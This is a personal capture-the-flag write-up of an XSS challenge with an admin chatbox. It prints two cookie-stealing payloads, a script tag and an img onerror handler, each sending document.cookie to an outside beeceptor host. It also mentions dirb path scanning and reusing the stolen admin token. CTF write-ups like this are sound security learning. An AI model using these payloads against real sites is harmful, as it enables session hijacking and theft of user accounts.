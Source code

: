 This challenge is clearly another xss challenge as its in the webpage link we get.<br />
We see a page with a moving image and a chatbox with an admin.

I tried the same xss as in the Government Agriculture Network challenge:<br />
\<script\>location.href="https://paulovh.free.beeceptor.com?"+ document.cookie\</script\>

This returns:<br />
HACKER ALERT!

So there is some checking for xss going on.
This can get very tricky as i found out last year however the first thing I checked already worked out:<br />
Using an img tag with an onerror that executes javascript is another very common way to inject javascript and this does work:<br />
\<img src=X onerror='location.href="https://paulovh.free.beeceptor.com?"+ document.cookie'/\>

This gave me the flag on the beeceptor mock api page!

When trying to go to /admin of the page you get redirected back to the main page.<br />
I tried this /admin page as it is a common page on many sites but for a more reliable way of getting these kind of pages you can use:<br />
dirb https://cwo-xss.web.ctfcompetition.com<br />
the dirb program will go trough a wordlist of common website paths and test them all and return you which ones worked.

But the xss also gives you an auth token from the admin.
Adding this in my firefox storage (explained in my Government Agriculture Network write-up) and going again to the /admin page I now get a new page with 3 options:
- Users
- Livestreams
- Camera Controls

The first 2 do nothing the last one gives the message:<br />
Requests only accepted from 127.0.0.1

Here I got stuck. I did not know for sure there was a flag to find here but it did seem like there was something here.

I eventualy needed to read a write-up to find this flag :( There is some magic happening with parameters in the url that make the page think you are comming from 127.0.0.1<br />
I dont know how I should have found this. I will be looking for write-ups that give a better explanation than the first I found and add a better explanation here if I do.

This part I abandoned after I had failed myself in the crypto challenge. Maybe more googleing would make it clear even without finding other write-ups but at this point I had had enough for now.

